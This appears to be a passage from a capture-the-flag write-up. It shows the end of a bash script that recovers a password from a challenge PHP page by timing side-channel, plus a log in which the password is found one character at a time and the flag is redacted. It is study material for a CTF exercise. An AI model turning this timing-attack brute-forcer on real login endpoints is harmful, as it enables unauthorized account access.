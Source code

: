 ```bash
  res=$(curl -s "$next_url" | sed -e "s/<time>.*<\/time>//")
  diff_val=$(diff <(echo $expected) <(echo $res))
  if [ ${#diff_val} -ne 0 ]
  then
      echo "Final password: $start_of_pass" | tee -a average_timings.txt
      echo "Testing $next_url" | tee -a average_timings.txt
      echo "diff was: $diff_val" >> average_timings.txt
      echo "Result was: $res" | tee -a average_timings.txt
      break
  fi
done
```
The output in the `average_timings.txt` file gave me the password and the flag:
```
Average timings
===============
Longest time was for 65 (A): 0.030223846435547
Current password: A
Longest time was for 84 (T): 0.050436973571777
Current password: AT
Longest time was for 50 (2): 0.070604085922241
Current password: AT2
Longest time was for 66 (B): 0.090644121170044
Current password: AT2B
Longest time was for 49 (1): 0.11069798469543
Current password: AT2B1
Longest time was for 72 (H): 0.13087296485901
Current password: AT2B1H
Longest time was for 68 (D): 0.15104794502258
Current password: AT2B1HD
Longest time was for 73 (I): 1.0
Current password: AT2B1HDI
Final password: AT2B1HDI
Testing http://ctf.hackucf.org:4000/bad_code/bad_code.php?passwd=AT2B1HDI
diff was: 1c1
< WRONG.<br/><br/><br/><small><div class="footer">Response generated in: </div><small>
---
> flag{<flag_was_here>}
Result was: flag{<flag_was_here>}
```

